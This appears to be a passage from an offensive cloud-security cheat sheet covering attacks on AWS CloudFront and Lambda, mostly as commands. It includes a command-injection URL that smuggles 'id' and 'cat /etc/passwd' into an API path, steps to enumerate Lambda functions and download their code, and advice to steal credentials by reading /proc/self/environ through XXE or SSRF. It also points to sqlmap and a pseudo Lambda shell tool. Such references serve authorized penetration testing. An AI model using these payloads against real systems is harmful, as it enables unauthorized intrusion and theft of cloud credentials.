 ### Tools

```
# https://github.com/MindPointGroup/cloudfrunt
git clone --recursive https://github.com/MindPointGroup/cloudfrunt
pip install -r requirements.txt
python cloudfrunt.py -o cloudfrunt.com.s3-website-us-east-1.amazonaws.com -i S3-cloudfrunt -l list.txt
```

## **AWS Lambda**

### **Info**

```
# Welcome to serverless!!!!
# AWS Lambda, essentially are short lived servers that run your function and provide you with output that can be then used in other applications or consumed by other endpoints.

# OS command Injection in Lambda
curl "https://API-endpoint/api/stringhere"

# For a md5 converter endpoint "https://API-endpoint/api/hello;id;w;cat%20%2fetc%2fpasswd"
aws lambda list-functions
aws lambda get-function --function-name <FUNCTION-NAME>
aws lambda get-policy
aws apigateway get-stages

# Download function code
aws lambda list-functions
aws lambda get-function --function-name name_we_retrieved_from_above --query 'Code.Location'
wget -O myfunction.zip URL_from_above_step

# Steal creds via XXE or SSRF reading:
/proc/self/environ
# If blocked try to read other vars:
/proc/[1..20]/environ
```

### Tools

```
# https://github.com/puresec/lambda-proxy
# SQLMap to Lambda!!!
python3 main.py
sqlmap -r request.txt

# https://github.com/twistlock/splash
# Pseudo Lambda Shell

```
